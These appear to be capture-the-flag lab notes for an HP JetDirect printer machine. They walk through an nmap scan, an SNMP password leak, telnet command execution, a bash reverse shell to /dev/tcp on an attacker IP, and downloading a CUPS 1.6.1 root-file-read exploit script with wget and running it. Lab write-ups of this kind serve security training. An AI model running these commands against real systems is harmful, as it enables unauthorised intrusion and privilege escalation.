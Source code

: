 # enum
```
nmap -Pn -sVC -T4 htb
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
```

https://www.exploit-db.com/exploits/22319

# exploit
```
snmpget -v2c -c  public htb .1.3.6.1.4.1.11.2.3.9.1.1.13.0
``` 
	iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
	33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
The output is in hex format

Result of convertion : 
```
P@ssw0rd@123!!123
```

## connection 
$ 
```
nc htb 23
```
```
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
> exec ls
telnet.py
user.txt
> exec cat user.txt
29acd80ba977dbaeef6f3672fb30c132
```

# foothold
get a good shell
	>
```bash
exec bash -c 'bash -i >& /dev/tcp/10.10.14.3/1234 0>&1'
```
$
```bash
ss -tunl
```      
	tcp    LISTEN  0       4096         127.0.0.1:631         0.0.0.0:*
there are a tcp port open in intern
$
```bash
nc 127.0.0.1 631 -v
```
	Connection to 127.0.0.1 631 port [tcp/ipp] succeeded!
	id
	HTTP/1.0 400 Bad Request
	Date: Fri, 22 Mar 2024 15:17:50 GMT
	Server: CUPS/1.6
	Content-Type: text/html; charset=utf-8
	Content-Length: 346
	
	<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
	<HTML>
	<HEAD>
	        <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
	        <TITLE>Bad Request - CUPS v1.6.1</TITLE>
	        <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
	</HEAD>
	<BODY>
	<H1>Bad Request</H1>
	<P></P>
	</BODY>
	</HTML>

There is an exploit for *CUPS v1.6.1*
https://github.com/p1ckzi/CVE-2012-5519/blob/main/README.md

# PrivEsc
$
```
wget http://10.10.14.3/cups-root-file-read.sh
bash cups-root-file-read.sh
```
